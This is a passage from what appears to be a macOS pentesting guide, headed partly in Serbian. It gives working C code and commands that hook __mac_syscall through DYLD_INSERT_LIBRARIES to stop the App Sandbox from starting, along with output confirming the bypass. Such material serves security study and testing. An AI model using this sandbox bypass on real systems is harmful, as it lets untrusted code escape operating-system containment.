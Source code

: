 ```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand
_libsecinit_initializer called
Sandbox Bypassed!
```
#### Interpost `__mac_syscall` da sprečite Sandbox
```c:interpose.c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>
#include <string.h>

// Forward Declaration
int __mac_syscall(const char *_policyname, int _call, void *_arg);

// Replacement function
int my_mac_syscall(const char *_policyname, int _call, void *_arg) {
printf("__mac_syscall invoked. Policy: %s, Call: %d\n", _policyname, _call);
if (strcmp(_policyname, "Sandbox") == 0 && _call == 0) {
printf("Bypassing Sandbox initiation.\n");
return 0; // pretend we did the job without actually calling __mac_syscall
}
// Call the original function for other cases
return __mac_syscall(_policyname, _call, _arg);
}

// Interpose Definition
struct interpose_sym {
const void *replacement;
const void *original;
};

// Interpose __mac_syscall with my_mac_syscall
__attribute__((used)) static const struct interpose_sym interposers[] __attribute__((section("__DATA, __interpose"))) = {
{ (const void *)my_mac_syscall, (const void *)__mac_syscall },
};
```

```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand

__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 0
Bypassing Sandbox initiation.
__mac_syscall invoked. Policy: Quarantine, Call: 87
__mac_syscall invoked. Policy: Sandbox, Call: 4
Sandbox Bypassed!
```
### Debug & bypass Sandbox with lldb
